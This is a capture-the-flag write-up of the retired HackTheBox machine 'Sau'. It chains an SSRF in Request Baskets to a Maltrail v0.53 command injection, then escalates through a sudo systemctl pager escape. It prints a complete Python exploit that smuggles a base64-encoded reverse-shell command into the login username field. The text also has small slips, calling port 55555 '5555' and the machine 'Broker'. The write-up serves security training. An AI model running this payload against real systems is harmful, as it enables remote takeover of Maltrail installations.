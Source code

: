 ```yaml
---
title: "HackTheBox: Sau"
collection: publications
permalink: /publication/sau
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-12-08
venue: '12-08'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/sau_header.png)

**LINK:** [Broker](https://app.hackthebox.com/machines/Sau)

Sau is an easy machine on HackTheBox that presents an interesting path to compromise through multiple vulnerabilities. The initial foothold is gained by exploiting an SSRF in an outdated version of the requests-basket HTTP server. This SSRF vulnerability reveals an internally accessible application, Maltrail v0.53, running on port 80. Leveraging a Remote Code Execution vulnerability in Maltrail provides unauthorized access to the machine. Executing systemctl as puma allows us to spawn another shell in the pager with root privileges.

---

## Enumeration : 

* Let's start off with an nmap scan :

```bash
nmap -A -p- 10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-08 05:47 EST
Nmap scan report for 10.10.11.224
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
```

* The scan reveals 2 open ports and 1 filtered port:
    - Port 22: SSH service
    - Port 80: HTTP server (filtered)
    - Port 5555: Unknown service

* Visiting port 5555 redirects to ``http://10.10.11.224:5555/web``, There, I stumbled upon a web service called "Request Baskets" running version 1.2.1. It seemed interesting because I could create baskets, send requests, and see the data.

![sau1](/images/sau1.png)

* A quick Google search exposed an SSRF vulnerability (CVE-2023–27163) in this version.

![sau2](/images/sau2.png)

* Now, here's where things got intriguing. I decided to exploit the SSRF vulnerability to redirect internal requests on the server to Port 80. I edited the configuration settings to forward requests to ``http://127.0.0.1:80`` .

![sau3](/images/sau3.png)

* After applying the changes, I discovered the "Maltrail" app running on Port 80, version v0.53. A bit more digging revealed an RCE vulnerability in this version.

![sau4](/images/sau4.png)

![sau5](/images/sau5.png)

# User Flag : 

* Exploiting this RCE vulnerability involved creating a basket using the previous CVE to redirect to Maltrail's login page at ``http://127.0.0.1:80/login`` .

* To get a reverse shell, I set up a netcat listener.

![sau6](/images/sau6.png)

* Now it's time to execute the python script to get the reverse shell.

```bash
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

```bash
python3 exploit.py <your-ip-address> <listening-port> http://10.10.11.224:5555/<Basket-name>
```
![sau7](/images/sau7.png)

* I got a user shell as the ``puma`` user.

![sau8](/images/sau8.png)

# Root Flag : 

* Now, moving on to privilege escalation part, I ran sudo -l and found that I could execute ``systemctl`` as the root user.

![sau9](/images/sau9.png)

* Checking the status of ``trail.service`` with ``systemctl``, I noticed the output was processed through ``less`` providing an opportunity to spawn a shell as the root user using ``!sh``.

![sau10](/images/sau10.png)

# Conclusion : 

Sau offers a diverse range of challenges, from exploiting an initial ``SSRF`` in an outdated requests-basket to leveraging a ``RCE`` in the internal Maltrail application. The machine's design emphasizes the importance of thorough enumeration and persistence in identifying and exploiting multiple vulnerabilities. Privilege escalation, though straightforward, highlights the significance of analyzing user privileges to achieve root access.






